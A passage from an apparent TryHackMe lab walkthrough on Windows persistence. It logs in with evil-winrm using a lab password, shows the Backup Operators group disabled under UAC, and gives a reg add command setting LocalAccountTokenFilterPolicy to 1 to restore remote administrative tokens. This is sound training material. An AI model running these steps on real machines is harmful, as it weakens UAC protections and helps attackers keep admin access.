We'll assume we have already dumped the credentials on the server and have thmuser1's password. Let's connect via WinRM using its credentials:

```
Username	thmuser1
Password	Password321
```

If you tried to connect right now from your attacker machine, you'd be surprised to see that even if you are on the Backups Operators group, you wouldn't be able to access all files as expected. A quick check on our assigned groups would indicate that we are a part of Backup Operators, but the group is disabled:

```bash
🔴🟢🟡                        AttackBox
user@AttackBox$ evil-winrm -i MACHINE_IP -u thmuser1 -p Password321

*Evil-WinRM* PS C:\> whoami /groups

GROUP INFORMATION
-----------------

Group Name                             Type             SID          Attributes
====================================== ================ ============ ==================================================
Everyone                               Well-known group S-1-1-0      Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                          Alias            S-1-5-32-545 Mandatory group, Enabled by default, Enabled group
BUILTIN\Backup Operators               Alias            S-1-5-32-551 Group used for deny only
BUILTIN\Remote Management Users        Alias            S-1-5-32-580 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NETWORK                   Well-known group S-1-5-2      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users       Well-known group S-1-5-11     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization         Well-known group S-1-5-15     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Local account             Well-known group S-1-5-113    Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NTLM Authentication       Well-known group S-1-5-64-10  Mandatory group, Enabled by default, Enabled group
Mandatory Label\Medium Mandatory Level Label            S-1-16-8192
```

This is due to User Account Control (UAC). One of the features implemented by UAC, **`LocalAccountTokenFilterPolicy`**, strips any local account of its administrative privileges when logging in remotely. While you can elevate your privileges through UAC from a graphical user session (Read more on UAC [here](https://tryhackme.com/room/windowsfundamentals1xbx)), if you are using WinRM, you are confined to a limited access token with no administrative privileges.

To be able to regain administration privileges from your user, we'll have to disable LocalAccountTokenFilterPolicy by changing the following registry key to 1:

```bash
🔴🟢🟡                        Command Prompt
C:\> reg add HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System /t REG_DWORD /v LocalAccountTokenFilterPolicy /d 1
```
